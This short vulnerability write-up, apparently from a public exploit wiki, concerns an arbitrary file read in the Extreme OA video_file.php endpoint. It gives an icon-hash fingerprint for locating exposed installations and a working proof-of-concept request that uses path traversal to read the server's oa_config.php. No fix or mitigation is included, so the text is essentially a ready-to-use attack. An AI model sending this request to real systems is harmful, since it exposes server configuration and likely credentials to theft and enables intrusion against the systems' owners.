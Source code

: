 # Extreme OA video_file.php Arbitrary file reading vulnerability

## Vulnerability Description

Extreme OA video_file.php has arbitrary file reading vulnerability, and attackers can obtain server-sensitive files through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Extreme OA</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">icon_hash="1967132225"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1657611799572-0a7316e9-7d7d-4c8c-8e5c-891904bc474f-20220712154642026.png)

Verify POC

```php
/general/mytable/intel_view/video_file.php?MEDIA_DIR=../../../inc/&MEDIA_NAME=oa_config.php
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1657611948243-17fb2a06-755a-4e18-8e12-36aef770134c.png)